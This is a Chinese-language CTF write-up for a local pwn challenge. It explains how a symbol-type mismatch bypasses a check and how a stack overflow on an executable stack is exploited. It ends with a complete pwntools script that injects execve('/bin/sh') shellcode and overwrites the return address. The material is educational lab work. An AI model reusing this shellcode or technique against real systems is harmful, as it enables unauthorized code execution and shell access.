 ## 概述

总体上就是一个栈溢出，且开启了栈可执行，栈溢出到可执行区段去执行shellcode即可获取shell拿到flag，不过你需要绕过一些条件才行。

## 查看程序

`checksec a.out`

![image-20220502201813244](C:\Users\李小丫\AppData\Roaming\Typora\typora-user-images\image-20220502201813244.png)

可以看到`Has RWX segments区段`

gdb里面`start`后，输入命令`vmmap`:查看进程中的权限；可以看见这里stack ：`rwxp`是可执行的；![image-20220502212547543](C:\Users\李小丫\AppData\Roaming\Typora\typora-user-images\image-20220502212547543.png)



## 思路

- 程序主要变量是全局变量，不在栈上；从主函数可以看出`val1,val2`是全局变量且有初始值`100,200`，且所占空间均为4字节（.bss段上）；一开始会让你能对`val1`，`val2`进行赋值,但其实没啥用，只是让你们知道在ida中，能简单的从`scanf函数`看出来main函数里面`val1`,`val2`的类型定义为int型；

  - ```
    1.c: In function ‘main’:
    1.c:23:8: warning: format ‘%lf’ expects argument of type ‘double *’, but argument 2 has type ‘int *’ [-Wformat=]
      scanf("%lf",&val1);
    ```

    （为了让你信服，将%d改为%lf，从这个报错就可以看出）

  

- 一开始查看bss也会发现这两个变量是有初始值的，故这两个符号为强符号（强定义为int型）

- 重点在于`happended()`函数，它会让你进行一个输入，对符号`val1`进行赋值，但可以发现是`%lf`，说明在某一处，`val1`符号被定义为了`double`型，但由于bss段上显示为val1只占`4 byte`，所以此double型为弱定义，因为链接器是以强定义为准；所以这赋值的空间是在main函数强定义符号所定义的空间(4 byte)，所以会去覆盖原`val1`；

- 但是在`happended()`函数中是按`8 byte(double)`来进行赋值的；所以就会将数对应的double型的机器数（即浮点数表示形式）存入`val1`的4byte空间；显然会溢出；而条件是让`val1==0&&val2==0x3ff000000`；故就根据此去构造`happended()`里面的`val1`的double型值

- `val1`为低地址，`val2`为高地址;即目标为这样：(小端存储)

  - ```
    		0	1	2	3
    &va1	00	00	F0	3F		high_addr
    &val2	00 	00	00	00		low_addr
    ```

- 即`0x3ff0000000000000` (double 型机器数)   ==   1.0；故输入`1`即可满足上述条件完成绕过；

- 接着就是送你了`buf`数组的地址，即栈地址（另一个选项就是可以自己尝试泄露栈地址）；而buf也是可控的；后面还有`scanf`这个危险函数，输入不受太多限制，故`buf`填入`scanf`函数能接收的shellcode;后面通过`scanf`直接进行一个溢出，将返回地址改为`buf`，就能控制程序执行shellcode从而获取shell了

## exp

```python
from pwn import *
context.log_level = 'debug'
p  = process("./a.out")
gdb.attach(p)
p.recvuntil("TO SAY SOMETHING\n")
p.sendline(str(1))

p.recvuntil("DO YOU WANNA HAVE A TYR?(0/1)\n")
p.sendline(str(0))
say = int(p.recv(14),16)
print 'say' + hex(say)
p.recvuntil("Thanks!What gift do you want!\n")
sh ="\x48\x31\xff\x57\x57\x5e\x5a\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54\x5f\x6a\x3b\x58\x0f\x05"
payload  = sh.ljust(0x20,'\0') + "deadbeef" + p64(say)
p.sendline(payload)


p.interactive()
```

